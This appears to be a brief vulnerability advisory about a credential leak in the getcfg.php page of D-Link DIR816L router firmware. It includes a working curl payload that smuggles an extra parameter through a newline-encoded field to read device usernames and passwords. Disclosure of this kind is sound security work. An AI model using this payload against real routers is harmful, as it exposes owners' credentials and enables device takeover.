

Sensitive Information Leak

Dir816L firmware version:DIR816L_FW206b01.bin

Description:

DIR816L_FW206b01 getcfg.php has an issue that attackers can use it to get sensitive information such as username and password by setting query string "DEVICE.ACCOUNT". 


you may download it from : https://tsd.dlink.com.tw/ddgo


payload:
```
curl http://192.168.0.1:80/getcfg.php -d "SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1"
```

